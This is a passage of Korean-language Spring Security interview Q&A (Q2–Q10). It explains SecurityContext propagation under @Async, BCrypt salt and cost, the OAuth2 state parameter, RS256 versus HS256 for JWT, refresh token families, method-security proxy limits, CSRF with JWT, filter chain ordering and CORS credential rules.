### Q2. SecurityContext가 ThreadLocal에 저장되는데, @Async에서 왜 인증 정보가 사라지는가?

`ThreadLocal`은 각 스레드가 독립적으로 초기화된 자신만의 변수 복사본을 갖는다. `@Async`는 Spring의 `TaskExecutor`에서 새 스레드를 꺼내 실행한다. HTTP 요청 스레드와 다른 스레드이므로 ThreadLocal에 있던 `SecurityContext`를 볼 수 없다. `MODE_INHERITABLETHREADLOCAL`은 부모 스레드 생성 시점에 복사하지만 스레드풀 재사용 시 이전 요청의 Context가 남을 수 있어 위험하다. `DelegatingSecurityContextAsyncTaskExecutor`는 태스크 제출 시점에 현재 Context를 캡처해서 새 스레드에 명시적으로 설정하므로 스레드풀 재사용 문제가 없다.

### Q3. BCrypt의 salt와 cost factor가 왜 보안에 중요한가?

**Salt**: 같은 비밀번호도 매번 다른 해시를 생성해 Rainbow Table 공격을 무력화한다. DB가 유출되더라도 같은 비밀번호를 쓰는 사용자를 식별할 수 없다. **Cost Factor**: cost=10이면 2^10=1,024회 반복, cost=12면 4,096회. 2 올리면 연산이 4배 느려진다. 2025년 기준 고성능 GPU로 cost=12를 크래킹하면 초당 약 6,000개. 하드웨어가 빨라지면 cost를 높여 대응한다. `DaoAuthenticationProvider`는 사용자가 존재하지 않아도 `mitigateAgainstTimingAttack()`으로 BCrypt 연산을 강제해 타이밍 공격도 방어한다.

### Q4. OAuth2 Authorization Code Flow에서 state 파라미터의 역할은?

클라이언트가 인가 요청 시 생성한 무작위 값을 세션에 저장하고 Authorization Server에 보낸다. AS가 콜백 URL로 같은 값을 돌려주면 클라이언트가 세션 값과 비교한다. 공격자가 피해자 브라우저에서 콜백 URL을 강제로 호출해도 세션의 state와 공격자가 제어하는 state가 일치하지 않아 거부된다. 세션-파라미터 바인딩으로 요청의 연속성을 증명하는 CSRF 방어 메커니즘이다.

### Q5. JWT RS256과 HS256의 차이를 설명하고, 마이크로서비스에서 RS256을 써야 하는 이유는?

HS256은 같은 비밀키로 서명과 검증을 수행한다. 여러 Resource Server가 검증하려면 모두 비밀키를 알아야 하므로, 비밀키 유출 경로가 서버 수만큼 늘어난다. 유출된 비밀키로 임의의 JWT 위조가 가능하다. RS256은 개인키로 서명, 공개키로 검증을 분리한다. 개인키는 Authorization Server 한 곳에만 존재하고, Resource Server는 공개키(JWK Set)만 있으면 독립적으로 검증할 수 있다. 공개키가 유출돼도 서명 위조는 불가하다.

### Q6. Refresh Token Rotation에서 Token Family를 사용하는 이유는?

단순 Rotation만으로는 공격자가 먼저 토큰을 사용하면 정상 사용자만 실패한다. Token Family는 최초 로그인부터 이어진 토큰 계보를 추적한다. 이미 회전된 이전 Refresh Token으로 갱신 요청이 오면 토큰 탈취로 판단하고 Family 전체를 무효화한다. 공격자와 정상 사용자 모두 재로그인이 필요해지므로 공격자가 장기간 접근하는 것을 막는다.

### Q7. @PreAuthorize가 같은 클래스 내부 호출에서 동작하지 않는 이유와 해결책은?

`@EnableMethodSecurity`는 AOP 프록시를 통해 처리한다. 외부에서 호출하면 프록시를 거치지만, `this.method()`로 같은 클래스 내에서 호출하면 프록시를 거치지 않고 실제 객체 메서드를 직접 호출한다. 이것은 `@Transactional`과 동일한 프록시 한계다. 해결책은 권한 체크가 필요한 메서드를 별도 서비스 빈으로 분리하는 것이다.

### Q8. CSRF는 왜 JWT + Stateless API에서 비활성화해도 안전한가?

CSRF 공격의 전제조건은 브라우저가 피해자의 자격증명(쿠키)을 공격 요청에 자동으로 포함시키는 것이다. JWT는 `localStorage`나 메모리에 저장하고 JavaScript로 `Authorization: Bearer xxx` 헤더를 설정한다. 브라우저는 이 헤더를 자동으로 붙이지 않는다. 단, JWT를 HttpOnly 쿠키에 저장하면 다시 CSRF에 취약해진다. `localStorage`에 저장하면 XSS에 취약해진다. 일반적으로 HttpOnly 쿠키 + CSRF 방어 또는 메모리(변수) + 짧은 만료 조합을 권장한다.

### Q9. FilterChainProxy에 여러 SecurityFilterChain을 등록할 때 매칭 순서는?

`@Order` 어노테이션으로 낮은 숫자가 먼저 매칭된다. 첫 번째로 매칭되는 체인이 선택되고 나머지는 확인하지 않는다(First Match Wins). `securityMatcher`가 없는 체인은 모든 요청에 매칭되므로 항상 마지막 `@Order`를 받아야 한다. `/api/**`와 `/api/admin/**` 두 체인이 있을 때 `/api/**`가 낮은 Order를 가지면 `/api/admin/**`가 절대 매칭되지 않는다. 구체적인 경로(좁은 패턴)를 항상 낮은 Order에 배치해야 한다.

### Q10. CORS preflight 캐시의 의미와, allowedOrigins("*")와 allowCredentials(true)를 함께 쓸 수 없는 이유는?

`Access-Control-Max-Age`는 브라우저가 preflight `OPTIONS` 요청 결과를 캐시하는 시간(초)이다. 캐시가 없으면 모든 POST 요청마다 `OPTIONS` 요청이 선행되어 네트워크 왕복 횟수가 2배가 된다. W3C CORS 스펙이 와일드카드 출처(`*`)와 자격증명의 조합을 금지하는 이유는, 모든 출처에서 쿠키와 Authorization 헤더를 포함한 요청을 허용하면 CSRF 방어가 무력화되기 때문이다. Spring은 `allowedOriginPatterns()`로 이를 지원한다.

</details>
